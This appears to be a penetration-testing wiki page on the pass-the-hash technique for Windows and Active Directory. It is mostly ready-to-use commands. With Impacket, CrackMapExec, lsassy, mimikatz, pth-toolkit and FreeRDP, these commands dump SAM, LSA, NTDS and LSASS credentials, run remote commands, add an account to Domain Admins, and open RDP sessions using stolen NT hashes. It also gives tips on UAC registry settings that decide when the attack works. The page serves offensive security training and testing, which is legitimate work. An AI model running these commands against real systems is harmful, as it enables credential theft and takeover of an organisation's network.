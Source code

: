 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1550.002
---
```


# Pass the hash

## Theory

An attacker knowing a user's NT hash can use it to authenticate over NTLM (pass-the-hash) (or indirectly over Kerberos with [overpass-the-hash](../kerberos/ptk.md)).

## Practice

There are many tools that implement pass-the-hash: [Impacket scripts](https://github.com/SecureAuthCorp/impacket) (Python) ([psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py), [smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py), [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)...), [CrackMapExec](https://github.com/mpgn/CrackMapExec) (Python), [FreeRDP](https://github.com/FreeRDP/FreeRDP) (C), [mimikatz](https://github.com/gentilkiwi/mimikatz) (C), [lsassy](https://github.com/Hackndo/lsassy) (Python), [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) (Python) and many more.

{% tabs %}
{% tab title="Credentials dumping" %}
The Impacket script [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) has the ability to remotely dump hashes and LSA secrets from a machine (`LMhash` can be empty) (see [dumping credentials from registry hives](../credentials/dumping/#windows-computer-registry-hives)).

```bash
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
secretsdump.py -hashes ':NThash' 'DOMAIN/USER@TARGET'
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'
```

[CrackMapExec](https://github.com/mpgn/CrackMapExec) (Python) has the ability to do it on a set of targets. The `bh_owned` has the ability to set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound) (see [dumping credentials from registry hives](../credentials/dumping/#windows-computer-registry-hives)).

```bash
crackmapexec smb $TARGETS -u $USER -H $NThash --sam --local-auth
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --lsa
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --ntds
```

[Lsassy](https://github.com/Hackndo/lsassy) (Python) has the ability to do it with higher success probabilities as it offers multiple dumping methods. This tool can set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound). It works in standalone but also as a [CrackMapExec](https://github.com/mpgn/CrackMapExec) module (see [dumping credentials from lsass process memory](../credentials/dumping/#windows-computer-lsass-exe)).

```bash
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
lsassy -u $USER -H $NThash $TARGETS
lsassy -d $DOMAIN -u $USER -H $NThash $TARGETS
```
{% endtab %}

{% tab title="Command execution" %}
Some Impacket scripts enable testers to execute commands on target systems with pass-the-hash (`LMhash` can be empty).

```bash
psexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
smbexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
wmiexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
atexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
dcomexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
```

[CrackMapExec](https://github.com/mpgn/CrackMapExec) (Python) has the ability to do it on a set of targets

```bash
crackmapexec winrm $TARGETS -d $DOMAIN -u $USER -p $PASSWORD -x whoami
crackmapexec smb $TARGETS --local-auth -u $USER -H $NThash -x whoami
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -x whoami
```

On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can pass-the-hash and open an elevated command prompt with [`sekurlsa::pth`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/pth).

```bash
sekurlsa::pth /user:$USER /domain:$DOMAIN /ntlm:$NThash
```
{% endtab %}

{% tab title="AD operations" %}
The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) (Python) can be used from a Linux system to operate LDAP queries, add a user to a group and so on (`LMhash` can be `ffffffffffffffffffffffffffffffff`).

```bash
pth-net rpc group members "Domain admins" -U 'Domain/User%LMhash:NThash' -S $DOMAIN_CONTROLLER
pth-net rpc group addmem "Domain admins" Shutdown -U 'Domain/Admin%LMhash:NThash' -S $DOMAIN_CONTROLLER
```
{% endtab %}

{% tab title="RDP access" %}
[FreeRDP](https://github.com/FreeRDP/FreeRDP) (C) has the ability to do pass-the-hash for opening RDP sessions.

```bash
xfreerdp /u:$USER /d:$DOMAIN /pth:'LMhash:NThash' /v:$TARGET /h:1010 /w:1920
```
{% endtab %}
{% endtabs %}

### Limitations, tips and tricks

{% hint style="warning" %}
**UAC limits pass-the-hash**

UAC (User Account Control) limits which local users can do remote administration operations. And since most of the attacks exploiting pass-the-hash rely on remote admin operations, it affects this technique.

* the registry key `LocalAccountTokenFilterPolicy` is set to `0` by default. It means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to do remote administration tasks. Setting it to `1` allows the other local admins as well.
* the registry key `FilterAdministratorToken` is set to `0` by default. It allows the built-in local admin account (RID-500, "Administrator") to do remote administration tasks. If set to `1`, it doesn't.

In short, by default, only the following accounts can fully take advantage of pass-the-hash:

* **local accounts** : the built-in, RID-500, "Administrator" account
* **domain accounts** : all domain accounts with local admin rights
{% endhint %}

{% hint style="info" %}
**WinRM enables pass-the-hash**

Testers should look out for environments with WinRM enabled. During the WinRM configuration, the `Enable-PSRemoting` sets the `LocalAccountTokenFilterPolicy` to `1`, allowing all local accounts with admin privileges to do remote admin tasks, hence allowing those accounts to fully take advantage of pass-the-hash.
{% endhint %}

{% hint style="info" %}
**Machine accounts**

Just like with any other domain account, a machine account's NT hash can be used with pass-the-hash, but it is not possible to operate remote operations that require local admin rights (such as [SAM & LSA secrets dump](../credentials/dumping/sam-and-lsa-secrets.md)). These operations can instead be conducted after crafting a [Silver Ticket](../kerberos/forged-tickets/#silver-ticket) or doing [S4U2self abuse](../kerberos/delegations/s4u2self-abuse.md), since the machine accounts validates Kerberos tickets used to authenticate to a said computer/service.

A domain controller machine account's NT hash can be used with pass-the-hash to [dump the domain hashes (NTDS.dit)](broken-reference).&#x20;
{% endhint %}

## Resources

{% embed url="https://en.hackndo.com/pass-the-hash/" %}

{% embed url="https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/" %}
